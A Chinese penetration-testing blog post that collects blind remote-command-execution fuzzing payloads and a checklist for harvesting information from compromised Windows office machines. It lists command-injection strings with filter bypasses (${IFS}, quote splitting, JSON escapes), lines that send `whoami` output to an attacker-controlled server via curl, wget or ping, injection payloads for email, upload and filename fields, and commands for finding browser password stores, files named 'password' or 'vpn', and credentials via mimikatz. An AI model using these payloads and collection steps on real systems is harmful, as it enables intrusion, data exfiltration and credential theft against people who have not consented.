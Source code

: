 ```yaml
---
layout: post
toc: true
title: "「Fuzz」:浅谈一些模糊匹配搜集信息的技巧"
author: Bin4xin
categories:
    - blog
tags:
    - 笔记
    - fuzz
    - 信息搜集
permalink: /blog/2020/learn/to/fuzz/
---
```


写在文前：

> 我们在web攻防期间有很多时候有一种感觉：那就是遇到rce漏洞时，bp放包的时候有一种隐隐的感觉，有的时候bp的反包字节大小莫名其妙的怪异，有经验的老师傅就索性直接跑RCE的fuzz字典，所以本篇就日常记录一些有关于web攻防期间的一些fuzz技巧

# 服务器RCE的fuzz技巧

* Windows机器的fuzz

即我们可以在关键参数后面使用管道符号和连接符fuzz命令执行实现我们的盲打：

`||和&`
 
* linux机器的fuzz

同上

`||和&`

* Linux下过滤空格可以使用:
```
${IFS},$IFS,$IFS$9
```

* JSON格式下的测试:
```
\u000awget\u0020 http://ip
```

Linux下可以包括反引号，windows下不可以。

## Linux下正常测试rce:
```bash
服务器启动web，注意需要处于监听状态下启动：

bin4xin@bin4xin's MacbookPro tools % python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...

```
rce fuzz命令如下：
```bash
bin4xin@bin4xin's MacbookPro tools % curl 192.168.101.51:8000/`whoami`
```
同时我们反过来看web日志记录：
```bash
::ffff:192.168.101.51 - - [19/Sep/2020 13:57:25] "GET /bin4xin HTTP/1.1" 301 -
```
同理各位可以发散思维：

ping `whoami`.服务器地址

如上，ping、curl同样适用。


一些特殊字符绕过姿势:

```bash
curl http://服务器地址/$(whoami)

curl http://服务器地址/$(whoami|base64)

'w'g'e't${IFS}服务器地址
```
各位可以自行实验在linux下的效果。

## Windows探测:

fuzz技巧是一样的，只是fuzz命令有一些区别；
```bash
ping %USERNAME%.服务器地址
------
(获取计算机名)
for /F %x in ('whoami') do start http://服务器地址/%x
------
(获取用户名称)
for /F "delims=\ tokens=2" %i in ('whoami') do ping -n 1 %i.服务器地址
------
测试邮箱:`wget%209服务器地址/xxxx`@qq.com

测试上传:`sleep 10`filename

测试filenname:`||wget%20服务器地址`

测试上传处下的名称: ;payload|payload&payload
;whoami|whoami&whoami
------
```

# 个人机器信息收集

1. 浏览器[Chrome,Firefox,Edge,IE,360,QQ ]信息(历史记录，密码，书签，cookie)：

   ```
   %LocalAppData%\Google\Chrome\User Data\Default
   %APPDATA%\Mozilla\Firefox\Profiles\xxxxxxxx.default\
   ```

2. 机器内敏感文件，关键词：账号、密码、备份、登录、管理、邮箱、后台、资产、网络

   ```
   for /r D:\ %i in (*密码*) do @echo %i
   for /r D:\ %i in (*vpn*) do @echo %i
   for /r D:\ %i in (*账号*) do @echo %i
   ```

3. 机器进程

   * 杀软/edr
   * teamviewer/等远程管理工具
   * 服务类进程：mssql/java/web服务

4. 安装软件列表

5. 当前windows 凭证管理器存储的密码

   * 登录密码（mimikatz）

   * wifi密码

   * outlook密码

   * ……

6. 机器开放端口信息/防火墙信息/获取机器共享

   ```
   netstat -naop
   wmic share  get name,path,status  #利用wmic查找共享
   ```

7. 获取机器所有rdp连接记录

8. 获取所有盘符

   ```
   wmic logicaldisk where drivetype=3 get name,freespace,systemname,filesystem,volumeserialnumber,size #查看分区
   ```

9. 获取全盘所有敏感文件

   .doc\xlsx\md\sql\ppt*\txt

   ```
   for /r D:\ %i in (*.doc) do @echo %i
   for /r D:\ %i in (*.xlsx) do @echo %i
   for /r D:\ %i in (*.ppt*)) do @echo %i
   ```

10. 本地环境
    * hosts
    * 环境变量
    * 补丁列表
    * 当前主机的会话信息

工作不饱和 总结了一下个人办公机信息收集思路